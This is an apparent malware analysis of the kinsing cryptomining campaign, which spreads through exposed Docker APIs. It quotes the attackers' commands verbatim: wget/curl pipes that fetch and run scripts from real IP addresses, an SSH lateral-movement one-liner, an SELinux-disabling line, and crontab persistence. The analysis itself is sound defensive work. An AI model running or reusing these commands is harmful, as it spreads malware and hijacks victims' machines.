 # How the Attack is Initiated

Taking advantage of the unprotected open Docker API port, the attackers are able to instantiate an Ubuntu container with the following entry point: /bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null

We saw this entry point in every attack in this campaign, with the only change being the IP address that d.sh is downloaded from. We witnessed 3 IP addresses used in total--the one in the example above, 217.12.221.244 and 185.92.74.42

The command does the following:
- Update packages with apt-get update
- Install wget with apt-get
- Start the cron service.
- Download a shell script with the just installed wget
- Run the shell script and read indefinitely from /dev/null to keep the container alive and running

We can see that the wget program was required to download the cron shell script. The script would be later used in order to gain persistency within the container.

# Defense Evasion and Persistence

The shell script d.sh, referred to from hereon as 'the shell script’, contains more than 600 lines. We discovered that the shell script does the following:
- Disables security measures and clears logs: echo SELINUX=disabled >/etc/selinux/config 
- Kills numerous applications, notably other malwares and cryptominers. 
- Deletes files related to other malwares/cryptominers, most of them from the /tmp directory 
- Kills running rival malicious Docker containers and deletes their image. 
- Downloads the ‘kinsing’ malware and runs it 
- Uses crontab to download and run the shell script every minute 
- Looks for other commands running in cron, and if ones were identified, deletes all cron jobs, including its own. We are not certain why the attackers chose to do so, but that is what the script executes: crontab -l | sed '/update.sh/d' | crontab -.

# Running the Malware

Kinsing is a Linux agent, identified by Virus Total after we submitted it for analysis. From here on we’ll refer to the malware as kinsing.

A quick look at the malware’s strings reveals that it is a Golang-based Linux agent. It uses several Go libraries, including:
- go-resty – an HTTP and REST client library, used to communicate with a Command and Control (C&C) server.
- gopsutil – a process utility library, used for system and processes monitoring.
- osext – extension to the standard ‘os’ package, used to execute binaries.
- extension to the standard ‘os’ package, used to execute binaries. diskv - A disk-backed key-value store, for storage.

Running the malware in a controlled environment and monitoring it brought up more details about its malicious actions.

# Communication with C&C servers

Before the malware proceeded to deploy its payload, it attempted to communicate with servers in Eastern Europe. It appears that there are dedicated servers for each function that the malware executes:
- Attempts to establish a connection with the following IP address: 45.10.88.102. The attempts fail as the server does not respond. 
- Connects to 91.215.169.111, which appears to be the main C&C server. The malware communicates with that host over HTTP port 80, and sends small encrypted messages on regular intervals, every few seconds. 
- Connects to 217.12.221.244/spre.sh, which we presume stands for spread, as we will see in the next paragraph, to download a shell script used for lateral movement purposes. 
- Connects to 193.33.87.219 to download the cryptominer C&C communication.

# Discovery and Lateral Movement

The spre.sh shell script that the malware downloads is used to laterally spread the malware across the container network.

In order to discover potential targets and locate the information it needs to authenticate against, the script passively collects data from /.ssh/config, .bash_history, /.ssh/known_hosts, and the likes. We did not identify any active scanning techniques used to identify additional targets.

Using the information gathered, the malware then attempts to connect to each host, using every possible user and key combination through SSH, in order to download the aforementioned shell script and run the malware on other hosts or containers in the network.

The actual shell script is named spr.sh this time around, but it is identical to the a d.sh shell script used earlier in the attack sequence

The following SSH command was used to spread it throughout the network: ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "sudo curl -L http://217.12.221.244/spr.sh|sh; sudo wget -q -O - http://217.12.221.244/spr.sh|sh;"

We noticed a comment in the script for a 20 seconds sleep after every 20 SSH connection attempts, and their cleanup, possibly indicating that the attackers have some sense of evasion and were trying to hide their activities.

At the last stage of the attack the malware runs a cryptominer called kdevtmpfsi. The cryptominer was identified by Virus Total as a Bitcoin miner.

The cryptominer connects to a host with the 193.33.87.219 IP address using a log in request over HTTP, receives further instructions, and starts mining cryptocurrency.
